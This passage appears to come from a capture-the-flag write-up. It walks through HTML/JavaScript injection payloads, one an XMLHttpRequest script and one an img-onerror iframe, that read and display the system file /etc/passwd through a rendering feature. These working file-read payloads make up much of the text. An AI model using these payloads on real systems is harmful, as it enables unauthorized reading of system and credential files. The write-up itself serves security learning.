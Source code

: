     <script>
    x=new XMLHttpRequest;
    x.onload=function(){document.write(this.responseText)};
    x.open("GET","file:///etc/passwd");x.send();
    </script>
    

After escaping the `"` and removing newlines, I get:

    
    
    <script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open(\"GET\",\"file:///etc/passwd\");x.send();</script>
    

This returns something much better:

![image-20230612122135804](../img/image-20230612122135804.png)

That’s nice, but there’s no newlines. Another technique that works nicely is
to write an `iframe` into the page using the `img` tag I used at the start to
test writing. I like this better than just inserting an `iframe` as it gets
more space:

    
    
    <img src=\"x\" onerror=\"document.write('<iframe src=file:///etc/passwd width=100% height=100%></iframe>')\" />
    
